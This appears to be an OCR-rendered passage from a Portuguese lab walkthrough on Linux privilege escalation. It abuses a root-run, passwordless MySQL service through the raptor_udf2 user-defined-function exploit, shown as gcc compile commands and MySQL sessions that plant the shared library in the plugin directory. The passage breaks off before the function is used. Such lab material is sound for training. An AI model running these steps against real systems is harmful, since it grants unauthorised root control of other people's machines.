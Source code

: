 
<div class="page"/>


## **<a id="2"> • Service Exploits.</a>**

Nesse passo, vamos explorar a escalação de privilégios através de um serviço vulnerável.

O serviço MySQL está sendo executado como root e o usuário "root" do serviço não possui uma senha atribuída. Podemos usar um exploit popular que aproveita as funções definidas pelo usuário (UDFs) para executar comandos do sistema como root por meio do serviço MySQL.

Então vamos utilizar uma ferramenta que está disponível na maquina chamada `raptor_udf2.c` para explorar essa vulnerabilidade. A ferramenta está localizada em `/home/user/tools/mysql-udf`.

Para utilizar a ferramenta é necessário compilar o código fonte, para isso vamos utilizar o `GCC`.

```bash
user@debian:~/tools/mysql-udf$ gcc -g -c raptor_udf2.c -fPIC
user@debian:~/tools/mysql-udf$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Agora vamos conectar ao serviço MySQL utilizando o `root` e com a senha em branco e criar uma função definida pelo usuário (UDF) chamada `do_system` que executará comandos do sistema.

```bash
user@debian:~/tools/mysql-udf$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 36
Server version: 5.1.73-1+deb6u1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
+--------------------+
2 rows in set (0.00 sec)
```

<div class="page"/>

Vamos usar a tabela `mysql` para criar nossa função.

```bash
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.00 sec)

mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

```